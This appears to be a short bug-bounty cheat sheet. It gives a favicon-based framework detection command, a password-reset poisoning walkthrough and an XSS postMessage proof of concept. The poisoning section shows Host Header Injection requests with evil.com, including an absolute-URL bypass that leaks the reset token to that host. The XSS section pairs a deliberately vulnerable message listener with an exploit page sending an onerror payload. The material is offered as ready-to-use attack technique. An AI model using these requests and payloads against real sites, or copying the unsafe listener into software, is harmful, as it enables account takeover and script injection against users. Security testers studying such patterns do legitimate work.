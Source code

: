 # Detect framework via favico
```
cat urls.txt | python3 favfreak.py -o output
```

### Password Poisoning
```
(1) Normal request:

Request:
POST /password-reset?user=123 HTTP/1.1
Host: target.com
Link received:
https://target.com/reset-link=1g2f3guy23g
(2) Basic HHI (Host Header Injection):

Request:
POST /password-reset?user=123 HTTP/1.1
Host: evil.com
Link received:
none
Error 404 - request blocked
(3) Bypass technique:

Request:
POST https://target.com/password-reset?user=123 HTTP/1.1
Host: evil.com
Link received:
https://evil.com/reset-link=1g2f3guy23g
```


### XSS Post Message POC
```
Vulnerable PostMessage
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>
window.addEventListener("message", (event) => {
console.log(event.data);
$(event.data)
}, false);
</script>


Exploit 
<!DOCTYPE html>
<html>
    <head>
    </head>
<body>
<script>
var myWindow = window.open("http://example.com/test.html")
</script>
<script>
setInterval(function(){myWindow.postMessage("<img src=x onerror=alert(123);>","*");},3000);
window.onmessage = function (e) {
console.log(e);
};
</script>
</body>
</html>
```